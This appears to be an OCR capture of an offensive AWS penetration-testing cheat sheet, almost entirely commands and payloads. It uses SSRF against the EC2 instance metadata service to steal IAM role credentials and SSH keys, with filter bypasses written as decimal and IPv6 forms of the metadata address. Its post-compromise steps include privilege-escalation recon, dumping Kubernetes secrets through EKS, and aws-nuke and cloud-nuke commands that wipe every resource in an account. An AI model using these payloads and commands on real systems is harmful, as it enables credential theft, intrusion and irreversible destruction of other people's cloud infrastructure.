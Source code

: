 ```
• Added session auth to requests
• First, a “PUT” request is sent and then responded to with a token
• Then, that token can be used to query data
--
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
curl http://example.com/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ISRM-WAF-Role
--

Post-compromise
• What do our access keys give us access to?
• Check AIO tools to do some recon (WeirdAAL- recon_module, PACU privesc,...)

http://169.254.169.254/latest/meta-data
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>

# AWS nuke - remove all AWS services of our account
# https://github.com/rebuy-de/aws-nuke
- Fill nuke-config.yml with the output of aws sts get-caller-identity
./aws-nuke -c nuke-config.yml # Checks what will be removed
- If fails because there is no alias created
aws iam create-account-alias --account-alias unique-name
./aws-nuke -c nuke-config.yml --no-dry-run # Will perform delete operation

# Cloud Nuke
# https://github.com/gruntwork-io/cloud-nuke
cloud-nuke aws

# Other bypasses
1.
aws eks list-clusters | jq -rc '.clusters'
["example"]
aws eks update-kubeconfig --name example
kubectl get secrets

2. SSRF AWS Bypasses to access metadata endpoint.
Converted Decimal IP: http://2852039166/latest/meta-data/
IPV6 Compressed: http://[::ffff:a9fe:a9fe]/latest/meta-data/
IPV6 Expanded: http://[0:0:0:0:0:ffff:a9fe:a9fe]/latest/meta-data/

# Interesting metadata instance urls:
http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
```
